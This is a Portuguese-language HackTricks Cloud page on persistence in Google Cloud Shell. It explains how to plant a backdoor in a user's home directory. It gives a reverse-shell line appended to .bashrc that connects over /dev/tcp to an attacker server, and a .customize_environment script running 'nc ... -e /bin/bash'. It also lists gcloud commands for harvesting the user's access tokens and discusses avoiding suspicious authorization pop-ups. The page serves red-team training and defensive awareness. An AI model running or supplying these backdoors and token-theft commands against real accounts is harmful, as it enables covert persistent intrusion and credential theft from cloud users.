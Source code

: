 # GCP - Persistência do Cloud Shell

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Cloud Shell

Para mais informações, confira:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistente

[**Google Cloud Shell**](https://cloud.google.com/shell/) fornece acesso à linha de comando aos seus recursos de nuvem diretamente do seu navegador sem nenhum custo associado.

Você pode acessar o Cloud Shell do Google pela **console web** ou executando **`gcloud cloud-shell ssh`**.

Esta console tem algumas capacidades interessantes para atacantes:

1. **Qualquer usuário do Google com acesso ao Google Cloud** tem acesso a uma instância do Cloud Shell totalmente autenticada (Contas de Serviço podem, mesmo sendo Proprietários da organização).
2. Dita instância **manterá seu diretório home por pelo menos 120 dias** se nenhuma atividade ocorrer.
3. Não há **capacidades para uma organização monitorar** a atividade dessa instância.

Isso basicamente significa que um atacante pode colocar uma backdoor no diretório home do usuário e, desde que o usuário se conecte ao GC Shell a cada 120 dias pelo menos, a backdoor sobreviverá e o atacante obterá um shell toda vez que for executado apenas fazendo:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Há outro arquivo na pasta inicial chamado **`.customize_environment`** que, se existir, será **executado toda vez** que o usuário acessar o **cloud shell** (como na técnica anterior). Basta inserir o backdoor anterior ou um como o seguinte para manter a persistência enquanto o usuário usar "frequentemente" o cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
É importante notar que a **primeira vez que uma ação que requer autenticação é realizada**, uma janela de autorização pop-up aparece no navegador do usuário. Esta janela deve ser aceita antes que o comando possa ser executado. Se um pop-up inesperado aparecer, isso pode levantar suspeitas e potencialmente comprometer o método de persistência sendo utilizado.
{% endhint %}

Esta é a janela pop-up da execução de `gcloud projects list` a partir do cloud shell (como atacante) vista na sessão do usuário do navegador:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

No entanto, se o usuário tiver usado ativamente o cloudshell, o pop-up não aparecerá e você pode **coletar tokens do usuário com**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Como a conexão SSH é estabelecida

Basicamente, essas 3 chamadas de API são usadas:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (fará você adicionar sua chave pública que você criou localmente)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (fará você iniciar a instância)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (informará o IP do google cloud shell)

Mas você pode encontrar mais informações em [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referências

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
